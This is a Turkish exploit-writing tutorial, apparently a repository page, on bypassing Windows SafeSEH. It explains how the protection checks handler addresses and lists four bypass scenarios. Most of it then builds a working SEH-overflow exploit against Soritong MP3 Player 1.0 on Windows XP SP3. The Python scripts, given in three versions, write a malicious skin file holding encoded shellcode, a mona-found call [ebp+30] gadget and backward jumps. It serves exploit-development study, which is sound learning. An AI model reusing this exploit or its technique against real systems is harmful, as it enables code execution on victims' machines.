




# Exploit Writing Tutorial Part 5 : SafeSEH Bypass

`OS` : Windows XP SP3

`Vulnerable App`: [Soritong MP3 Player 1.0](http://web.archive.org/web/20090106025307/www.sorinara.com/soritong/)

`Debugger` : [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

`Video - Binary Exploitation 0x0B | Corelan.be Overflow 0x06 SafeSEH Bypass` : https://www.twitch.tv/videos/706110704

`Source` : https://www.corelan.be/index.php/2009/09/21/exploit-writing-tutorial-part-6-bypassing-stack-cookies-safeseh-hw-dep-and-aslr/

# `SafeSEH Nedir ?`

SafeSEH temel olarak bizim `SEH` tabanlı bir exploit çalıştırmamızı engellemek için oluşturulmuş bir mekanizmadır. Bu mekanizma bilinen `exception handler` adreslerini alarak bir dosyaya yazar. Daha sonra bir exception durumu oluştuğunda `ntdll.dll` içerisinde bulunan `KiUserExceptionDispatcher` fonksiyonu sayesinde `SEH` adresini kaydedilen adresler ile karşılaştırır.

Peki bu mekanizma tam olarak nasıl çalışıyor ?

1. Bizim programımızın stack alanının en yüksek ve en düşük adresi TEB içerisinde fs:[4] ve fs:[8] içerisinde tutulur. Herhangi bir exception oluştuğu zaman `SEH` üzerinde yazan adres TEB yardımı ile bizim stack alanımız içerisinde bir yeri mi gösteriyor diye kontrol edilir. Eğer ki programın stack alanı içerisinde bir adres ise o zaman çalıştırmaz.

2. Eğer ki `SEH` üzerinde yazan adres stack alanı içerisinde değilse o zaman bu adresi programın yüklenen modül listesindeki stack alanlarının içerisine denk gelip gelmediğine kontrol eder. Eğer ki adres yüklenen bir modül içerisindeki stack alanının içerisine denk geliyorsa devam eder.

3. Eşleşme sağlandıktan sonra handler adreslerinin tutulduğu bir liste ile bu adresi karşılaştırır. Bu karşılaştırma işlemi temel olarak modülün sahip olduğu `Load Configuration Directory` içerisine bakılarak yapılır. Eğer burda da eşleşme sağlanırsa `SE Handler` fonksiyonu başarılı bir şekilde çalışmış olacaktır.

# `SafeSEH Bypass ?`

Burda benim öğrendiğim birkaç farklı senaryo mevcut...

1. Eğer yüklenen modüllerin arasında `SafeSEH` koruması kapalı bir modül varsa onun içerisinden bir adres kullanabiliriz. Çünkü bu modülün içerisinde `Load Configuration Directory` olmadığı için karşılaştırma yapılamayacak ve direk olarak çalıştırılacaktır.

2. Tüm modüller `SafeSEH` ancak programımız `SafeSEH` değil ise o zaman `pop pop ret` talimatını gerçekleştiren adresi programımızın stack alanı içerisinde bulup kullanabiliriz. Burda en büyük problem bulduğumuz adresin `null` byte içerebilme olasılığı. (Overflow'a yol açan fonksiyonumuz `null` karakter gördüğü anda değer almayı durdurduğu için ilerisine yazamıyoruz.) Böyle bir durumda da shellcode'u `SEH`'den sonraya yazmak yerine bizim buffer alanımızın içerisine yazarak geriye doğru sıçrayabiliriz.

3. Hatırlayacağınız üzere `SEH` üzerine yazmış olduğumuz adres yüklenen modüllerin içerisine denk geliyor mu diye kontrol ediliyordu. Eğer biz yüklenen modüllerin dışında `SafeSEH` koruması kapalı olan ve hali hazırda çalışan bir modül veya program bulursak eğer ordaki bir adreside kullanabiliriz. Çünkü `SafeSEH` mekanizması yüklenen modüller dışındaki bir adresi kontrol etmez ve güvenli varsayarak direk çalıştırır.

4. SafeSEH koruması sadece `STACK` adreslerini kontrol etmektedir. Eğer ki `HEAP` içerisinde işimize yarayacak bir adres/durum oluşursa bunu kullanabiliriz.

# `Let's Go`

Bilmemiz gereken önemli bir konu daha var ki o da sadece `pop,pop,ret` instruction ihtiyacımız olmadığı. Biz aşağıda yazan instructionları da kullanabiliriz.

- call dword ptr[esp+nn]
- jmp dword ptr[esp+nn]
- call dword ptr[ebp+nn]
- jmp dword ptr[ebp+nn]
- call dword ptr[ebp-nn]
- jmp dword ptr[ebp-nn]

Call/jmp işlemlerinde özellikle aradığımız şeyler  => `esp+8, esp+14, esp+1c, esp+2c, esp+44, esp+50, ebp+0c, ebp+24, ebp+30, ebp-04, ebp-0c, ebp-18`

Bunları özel kılan şeyin ne olduğunu uygulamalı olarak göreceğiz :)

Normalde bizim `Soritong` uygulamamızda ve modüllerin birçoğunda `SafeSEH` koruması yok ancak biz kendimize bir senaryo belirleyelim. Uygulamamızın kendisinde ve yüklediği modüllerde `SafeSEH` korumasının açık olduğunu varsayalım. Yukarda anlatmış olduğumuz `safeseh Bypass` yöntemlerinide inceleyerek bizim için en mantıklı olan 3. numaralı yöntemi uygulayalım.

Daha önce yazmış olduğumuz exploit kodunu alalım ve nextSEH adresine `\xCC` vererek çalıştıralım.

```python
# Soritong 1.0 SafeSEH Bypass
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xCC"*4
SEH = b"\x39\xaf\x01\x10"

exploit = padding + nextSEH + SEH + calc

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```



Access violation hatası geldi. `SHIFT+F9` yapıp devam edelim.



Bizim `EBP` adresimiz `0012D664`'ü göstermekte öyle değil mi ? Onun birazcık üzerindeki `0012D658` adresinde de benim nextSEH adresim (0012FD64) tutulmakta. (Sol üst tarafdaki bölüme bakacak olursak eğer `12FD64` adresinde az önce koymuş olduğumuz `\xCC` 'yi görebiliriz.)

O zaman `EBP` adresinden `nextSEH` adresini gösteren kısma gelmek için `ebp+nn` veya `ebp-nn` instructionlarına ihtiyacım var. Ama bu instructionlar programımızın içerisinde veya kullandığı dll dosyaları içerisinde olmayacak.

İşte tam bu noktada imdadımıza `pvefindaddr` veya `mona.py` yetişecek. (Daha önce `mona.py` kurmuş olduğumuz için onu kullnacağız.)

    !mona jseh komutu ile yüklenen modüllerin dışında işimize yarayabilecek instructionları listeleyebiliriz.



Bize diyor ki ben senin için programının kullanmadığı ve hali hazırda çalışmakta olan `rtutils.dll` içerisinde `call dword ptr ss:[ebp+30]` instructionı buldum. Adreside `0x00270b0b`

İyi güzel hoş ama `ebp+30` nereyi gösteriyor orada ne var ? Hemen hesaplayalım... `EBP` = 0x12D664 adresini göstermekte biz bunun üzerine 0x30 eklediğimiz zaman `0x12D664 + 0x30` = `0x12D694`. Adresi bulduk şimdi o adreste ne olduğuna bakalım.



`0x12D694` adresinde bizim nextSEH adresimiz varmış. Aslında yukardaki resimde stack durumuna bakacak olursak eğer en başta yazmış olduğumuz `ebp+30`, `ebp-0xc`, `ebp-0x4` işlemlerinin hepsinin `0x12FD64` adresini gösterdiğini görebiliriz. :)

```python
...
SEH = b"\x0b\x0b\x27\x00" # call dword ptr ss:[ebp+30]
...
```

Ama herşey henüz bitmiş değil . Çünkü `SEH` üzerine yazmış olduğumuz adres `null` byte içermekte. O zaman bizim ileriye doğru değil geriye doğru jump işlemi yapmamız lazım. Shellcode'u da normal buffer içerisinde bir yere yazmamız gerekecek

```python
# Soritong 1.0 SafeSEH Bypass
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

size = 584
NOP = b"\x90"*100
nextSEH = b"\xCC"*4
SEH = b"\x0b\x0b\x27\x00" # call dword ptr ss:[ebp+30]

exploit = NOP + calc + NOP*(size-len(NOP+calc)) + nextSEH + SEH

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Şöyle birşeyler olacak . Şimdi benim ne kadar geriye sıçramam gerektiğini bulmam lazım. 100 byte `NOP`'dan sonra shellcode yazdığım için yaklaşık 484 byte geriye sıçrayabilirim gibi düşünebiliriz. Ancak biz işimizi sağlama alalım ve düz 500 byte geriye sıçrayalım nasıl olsa shellcode'dan önce `NOP` karakterlerimiz var.

O zaman benim `jmp -500` işlemini gerçekleştiren opcodelara ihtiyacım var ki o da `E9 07 FE FF FF` yapmakta. Ancak ne yazık ki 4 byte değil 5 byte uzunluğunda. Çözmemiz gereken bir problem daha çıktı (: Ama hemen pes etmek yok zaten bunu çözmekte de bişey yok (biraz kafiyeli oldu sanki). Eğer nextSEH adresinden önceye `jmp -500` opcodelarını yazarsak, nextSEH adresine de ufak bir geriye sıçrama yazarız ki , `jmp -500`'ün uzunluğu 5 byte olduğu için 5 byte lık bir geriye sıçrayış yeterli olacaktır. (`jmp -5` opcode karşılığı `EB F9`)

O halde exploitimizin son halini yazabiliriz.

```python
# Soritong 1.0 SafeSEH Bypass
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

size = 584
NOP = b"\x90"*100
geri_vites = b"\xE9\x07\xFE\xFF\xFF" # jmp -500
nextSEH = b"\xeb\xf9\x90\x90" # jmp -5
SEH = b"\x0b\x0b\x27\x00" # call dword ptr ss:[ebp+30]

exploit = NOP + calc + b"\x90"*(size-len(NOP+geri_vites+calc))+ geri_vites + nextSEH + SEH

# File path
file = "C:\Program Files\SoriTong\Skin\Default\UI.txt"
# File Create
f = open(file, "wb")
f.write(exploit)
f.close()
```

Sanırım herşey tamam gibi, programımızı çalıştırıp test edelim...


Ve başarılı bir şekilde exploitimiz çalışmış oldu.
